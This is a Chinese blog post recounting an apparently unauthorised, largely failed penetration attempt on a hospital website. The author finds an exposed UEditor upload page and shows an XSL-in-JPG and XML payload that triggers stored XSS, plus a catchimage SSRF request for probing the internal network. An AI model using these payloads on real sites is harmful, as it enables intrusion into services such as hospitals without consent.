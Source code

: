 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/eJW7wBEg67Jx8mIKKYLf7w)

一次比较失败的渗透吧，没有 shell 分享个过程

主要是比较忙（cai），没啥有趣的实战案例了~

某医院，之前打过一次并 shell 了下来，后来又改版 再打一次

![](https://mmbiz.qpic.cn/mmbiz_png/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp8MLRW6ZJnSCraZ9zmwvZbsIncVHKicHprMuSU92L7t44KQbsgUaicrzLQ/640?wx_fmt=png)

之前做过旧的网站，后来换成新版后又重新做了一次

https  不清楚是什么 cms  nginx 的话 暂且猜测是 php 阿里云的机器

掏出大字典 跑了一圈目录 真就啥也么得...

刚开始以为是被 ban 了 然而并没有

![](https://mmbiz.qpic.cn/mmbiz_png/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp87qjGykITRicjp06d2GeGAmv4te4f9Kt7gEFV5tic95uVn0voctIfYJzw/640?wx_fmt=png)

确实有点迷   并且无论访问什么都会跳转到首页

后来在一个联系我们的页面 发现了问题

![](https://mmbiz.qpic.cn/mmbiz_png/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp8Vrh1QBhHVHzv4VTLQibmVOdDBU6PRw5iaaHHibuIdtnx0mW1ocePAo1jg/640?wx_fmt=png)

Ueditor 编辑器

![](https://mmbiz.qpic.cn/mmbiz_jpg/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp86LI0fgX6HlRO9eIUW02KOrSicVez0zU25arLOdaWtCDjoAfSjKC9IfQ/640?wx_fmt=jpeg)

此时我通过 Ueditor 编辑器默认页面  直接可以上传文件

![](https://mmbiz.qpic.cn/mmbiz_jpg/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp8WfRoEQXMRe6nBdIe8Ur4S2mK4P9C4xyGibKvEWkjcPz6kO3GoiauOp8Q/640?wx_fmt=jpeg)

此时可以看一下支持上传的文件类型

```
/ueditor/php/config.json
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp8BEl4S739UfBc6ibYYYpjYN71LM8BDnM617udcPmq5icicaMmeJXBKgFgg/640?wx_fmt=jpeg)  

都是默认允许可上传文件后缀

尽管如此 我当时还是直接上传了 php  也就出现了下面一幕

此时开心的一批

![](https://mmbiz.qpic.cn/mmbiz_png/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp8VcxusaPCm34p8cwA3kjibGqWicslgdXiaLpGeJjdGQUgDgzF7icgNLZheg/640?wx_fmt=png)

然后 泪流满面

![](https://mmbiz.qpic.cn/mmbiz_jpg/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp8Rryg2CDsLMkFOp9hJ4sShCicEIzJicKtGrb8gicibuArPxcJvtN55HWd5Q/640?wx_fmt=jpeg)

然而 真相是这样的

![](https://mmbiz.qpic.cn/mmbiz_png/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp86Dg3kiaTZ4Z6ZicNV6icmsapRYia6ZC8pcPwWaGwXuMoWgDIHnbSVKADbQ/640?wx_fmt=png)

如果只能传一些 txt 和 jpg 那这个文件上传是毫无意义的

此时我通过 xml 执行了 xss

Jpg：

```
<?xml version="1.0" encoding="iso-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<html><body>
<script>alert(/test/);</script>
</body></html>
</xsl:template>
</xsl:stylesheet>
```

Xml:

```
<?xml version="1.0" encoding="iso-8859-1"?>
<?xml-stylesheet type="text/xsl" href="xxx.jpg"?>
<test></test>
```

![](https://mmbiz.qpic.cn/mmbiz_png/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp84nxO24EB8ialCY9TreYUQH9X6PGYaib9CE91Gml56rrVVt6yUTy4zwXg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp8nicbIRibRc1uB3Vjjsy0icqQzE9Qe4krtllNSsttDjHuDtBtBZXQfSMWA/640?wx_fmt=png)

然后通过 ueditor 历史漏洞 发现存在一处 ssrf

```
ueditor/php/controller.php?action=catchimage&source\[\]=https://www.baidu.com/img/baidu\_jgylogo3.gif
```

![](https://mmbiz.qpic.cn/mmbiz_png/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp8IEUsM0nZ6sCEVu58jicF4OIqPqDMpgf0iazkKu1JgibCFPH6fWtTMPCSg/640?wx_fmt=png)

可以进一步用来探测内网的资产，但..

![](https://mmbiz.qpic.cn/mmbiz_png/enXQnPDrqyzgyQwYU39OkSiceE6ZqPpp8xEPbJa4f8jZA59aAVJhYY1kyzKqyMKNjIZDAL2BJpJAxpDsWf9F91A/640?wx_fmt=png)

到此基本就结束了，菜逼李  不配再多 BB